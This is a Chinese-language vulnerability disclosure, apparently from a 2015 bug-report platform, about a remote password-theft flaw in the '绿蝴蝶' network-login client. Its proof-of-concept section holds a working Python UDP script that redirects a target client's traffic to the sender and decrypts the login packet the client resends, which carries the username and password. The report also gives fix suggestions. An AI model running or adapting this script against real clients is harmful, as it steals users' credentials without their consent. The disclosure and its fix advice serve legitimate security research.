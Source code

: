 
漏洞递交时间:  2015/3/21  (YY/MM/DD)

漏洞等级:  12  (RANK:1-16) 

漏洞标题:  绿蝴蝶远程密码获取漏洞 

漏洞类型:  程序设计缺陷 

漏洞说明:

 

  引发这个漏洞的最主要的原因是程序设计上的缺陷,下面将详细分析各个缺陷



## 缺陷1 – 发送任意数据包到客户端并重定向它向服务器回传的目的地址

 

漏洞出现在后台数据接收线程中, Me.m_client3848.Receive以传址的方式来接收Me.endPorint3848,这使得Client.ReceiveFrom 接收到数据的源地址将会填写到Me.endPorint3848 ,假设任意的客户向该客户端发送数据, Me.endPorint3848 将会保存它的IP 地址然后传递到Me.upack



![img](pic_temp5\psb1.webp.jpg)

 

![img](pic_temp5\psb2.webp.jpg) 

 

## 缺陷2 – 客户端断线时自动发送登陆数据包

 

  利用第一个缺陷,使得客户端不能正常向服务器发送IDLE 心跳包(因为已经被重定向把数据包发送到新的目的主机),于是引发登陆超时
 

![img](pic_temp5\psb3.webp.jpg)

 

![img](pic_temp5\psb4.webp.jpg) 

 

由于客户端检测到服务器没有返回应答,所以定时器被激发来运行错误代码(登陆超时)

 

![img](pic_temp5\psb5.webp.jpg)



接下来将会发送登陆数据包,里面包含该主机的IP 地址和客户的用户名密码

 

漏洞证明:



```python
#!/usr/bin/envpython
# -*- coding utf-8-*-

import socket
import array
import sys
import os
import time

def send(sock,ip):
    payload =('\x10\xb8\x3f\x9d\xd4\xfc\x5e\xc4\xa3\x35\x19\x02'
              '\xf5\xbd\x24\x57\x2d\x10\x81\x81\x80\x20\x40\xc8'
              '\xe8\x49\xc9\xe8\xe8\xe8\x59\x68\x48\x59\x68\xd8'
              '\xc8\xd9\x68\x50\x11\x80\x00\x80\xdd')

    sock.bind(('0.0.0.0',9527))
    sock.sendto(payload, (ip, 3848))

#0x04,0x2D,0xEE,0x67,0x55,0x7D,0xF4,0x51,0x8B,0x4E,0x26,0x80,0x5F,0x6F,0x48,0xD6,0x6A,0x04,
#0x03,0x03,0x01,
#0x08,0x10,0x31,0x39,0x32,0x33,0x39,0x39,0x39,0x36,0x38,0x30,0x36,0x38,0x35,0x31,0x37,0x38,
#0x14,0x06,0x01,0x00,0x01,0x77

 

def decrypt(data):
    for i in range(len(data)):
        data[i] = (data[i] & 0x80)>> 7 | (data[i] & 0x40) >> 2 | (data[i] & 0x20) >> 2| (data[i] & 0x10) >> 2 | (data[i] & 0x08) << 2 | (data[i]& 0x04) << 4 | (data[i] & 0x02) << 6 | (data[i] & 0x01)<< 1
     
def main():
    filename = sys.argv[0]
    if len(sys.argv) < 2:
        print 'Usage: ' +os.path.basename(filename) + ' ip'
        sys.exit()

    ip = sys.argv[1]

    print 'Waiting for response ... '

    start_time = time.time()
    sock = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)

    send(sock, ip)

    data = array.array('B', '\0'*200)

    print 'Starting ECHO output ... '

    while True:
        sock.recv_into(data)
        decrypt(data)

        print '%ss' % (time.time() -start_time)

        for i in data:
            print "%c" % i,
           
        print '\n' + '-' * 80
 

if __name__ =='__main__':
    main()
```



![img](pic_temp5\psb6.jpg)



![img](pic_temp5\psb7.jpg)



![img](pic_temp5\psb8.png)





漏洞修复建议:

 

  缺陷1 – 由于服务器的IP 地址和端口的都唯一的,应该在该类里面创建私有的服务器远程终端,然后把代码修改如下:



```visual basic
Dim Server As IPEndPort
 

Public Sub Poll()
    Dim buf As Byte()

    Me.m_status = AmtiumStatus.Polling
    Me.OnPolling(New AmtiumPollingEventArgs(Me.m_sessionId, Me.m_ip, Me.m_mac, Me.m_seq))
    buf = Protocal.Poll(Me.m_server, Me.m_sessionId, Me.m_ip, Me.m_mac, Me.m_seq)

    Me.m_client3848.Send(buf, buf.Length, Me.Server).BeginInvoke(Nothing, Nothing)
    End If
End Sub
```



  缺陷2 – 把Me.login 去掉

